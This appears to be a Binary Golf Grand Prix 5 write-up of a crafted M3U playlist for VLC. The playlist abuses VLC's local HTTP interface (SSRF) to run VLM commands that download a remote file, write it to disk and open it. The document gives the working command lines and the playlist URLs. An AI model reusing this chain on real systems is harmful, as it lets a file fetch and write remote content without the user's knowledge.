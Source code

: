 # BGGP5 - A M3U for VLC

aka SSRF'ing VLCs HTTP interface.

Should support Linux and MacOS, do need to leave click off the playlist and
reclick it on macos (something to do with the erros this causes).

## TL;DR

* .m3us as VLC supports them can just be a list of URLs, which VLC will send
  requests to fetch. You don't need "#EXTM3U", VLC doesn't care.
* When opened they will add their contents to the active playlist, with the
  filename being the name that shows up in the playlist.
* VLC has an incredibly insecure http interface, which allows you to just send
  GET requests (with the requirement of HTTP auth) to access its commands.
* The interface lets you use VLM commands, which lets you script VLC to create
  streams.
* It is possible to use run a few VLM commands to download a file via HTTPS to
  disk, and also open this file as well.
* So if you download `https://binary.golf/5/5`, save it as a m3u and open it
  and the contents will be displayed right in the playlist!

## Write up

### From just the command line

To start off, here is a LOLbin usage of VLC to download a file:
```
vlc https://binary.golf/5/5 :demux=dump :demuxdump-file=out.vlc out.vlc
```

(l33t 0d4y, not listed in GTFO bins!)

A few things to note:
* VLC supports accessing HTTP(S) URLs.
* You can use the dump demux [1], that will just write a file with no changes,
  avoiding all media parsing.
* out.vlc will be used as a playlist (.vlc is just an alias for .m3u) and will
  resolve the filename.

### HTTP Interface

#### Enabling

We have to run VLC with some extra flags to enable the http server:
```
vlc -I qt --extraintf http --http-password 5 --http-port 8080 payload.m3u8
```

* Setting the default interface to QT (or macosx on macos)
* Enable the HTTP server, set a password (a requirement) and the port.

We need to set the port as I hit different port numbers on macos and linux.

#### What can we do

Looking at [2], we can see two interesting endpoints:
* `status.xml`
* `vlm_cmd.xml`

With `status.xml`, we can play directly play a file from disk, which will come
in handy.

`vlm_cmd.xml` gives us the ability to run VLM commands, which has a lot of
power.

Both are used by passing the query `?command=blah` where blah is the command you
want to run.
Entirely via GET requests!

### VLM to write to disk

VLM[3] gives you a set of commands to setup streams / otherwise control VLC.

After some experimenting, I found the following VLM commands to write a file
downloaded over HTTP to disk:

```
new c vod enabled input https://binary.golf/5/5 option demux=dump option demuxdump-file=.m3u
control c play
```

I did experiment with using stream outputs, but I realised I could just use
`demux=dump` here to write it out.

### Bringing everything together

So, we can then run our vlm commands by putting the following in the file:
```
http://:5@0:8080/requests/vlm_cmd.xml?command=new c vod enabled input https://binary.golf/5/5 option demux%3ddump option demuxdump-file%3d.m3u
http://:5@0:8080/requests/vlm_cmd.xml?command=control c play
```

`https://:5@0:8080/` does HTTP auth with the password 5, and 0 is an alias for
localhost we can use.
We get to pass our command easily, just needing to manually urlencode `=`.

Finally, we can open the BGGP5 file we saved to disk as a m3u, and it'll
display:
```
http://:5@0:8080/requests/status.xml?command=in_play&input=.m3u
```

## References

* [1] https://wiki.videolan.org/Demuxdump/
* [2] https://wiki.videolan.org/VLC_HTTP_requests/
* [3] https://github.com/videolan/vlc/blob/master/doc/vlm.txt
